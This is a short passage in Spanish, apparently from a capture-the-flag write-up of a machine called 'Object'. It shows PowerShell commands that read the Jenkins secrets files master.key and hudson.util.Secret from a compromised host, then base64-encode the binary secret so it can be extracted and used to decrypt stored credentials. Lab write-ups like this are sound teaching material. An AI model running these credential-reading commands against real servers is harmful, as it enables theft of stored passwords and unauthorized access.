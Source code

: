 Como necesitamos la masterkey y el hudson, nos iremos al directorio secrets y para obtener lo que necesitamos:

```s
cmd /c powershell -c "cat ../../secrets/hudson.util.Secret"
cmd /c powershell -c "cat ../../secrets/master.key"
```

![masterkey](/assets/images/Object/masterkey.png)

![hudson](/assets/images/Object/hudson.png)

El archivo hudson al parecer es un archivo binario, para poder traerlo de manera correcta con powershell podemos intentar hacer un:

```powershell
cmd /c powershell -c [convert]::ToBase64String((cat ../../secrets/hudson.util.Secret -Encoding byte))
```
